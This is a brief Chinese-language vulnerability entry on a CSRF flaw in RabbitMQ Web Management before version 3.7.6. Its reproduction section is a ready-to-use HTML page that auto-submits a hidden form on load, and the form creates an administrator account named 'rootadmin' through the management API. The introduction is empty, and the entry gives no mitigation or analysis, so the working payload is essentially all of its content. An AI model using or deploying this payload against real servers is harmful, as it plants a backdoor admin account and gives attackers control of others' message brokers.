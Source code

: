 # RabbitMQ Web管理csrf漏洞

## 一、漏洞简介

## 二、漏洞影响

RabbitMQ Web Management < 3.7.6

## 三、复现过程

```html
<html> 
<h2>Add RabbitMQ Admin</h2>
<body>
<form name="rabbit" id="rabbit" action="https://www.0-sec.org/api/users/rootadmin" method="POST">
<input type="hidden" name="username" value="rootadmin" />
<input type="hidden" name="password" value="rootadmin" />
<input type="hidden" name="tags" value="administrator" />
<input type="submit"  value="save" />
</form>
<script>
  window.onload = rabbit.submit()
</script>
</body>
</html>
```
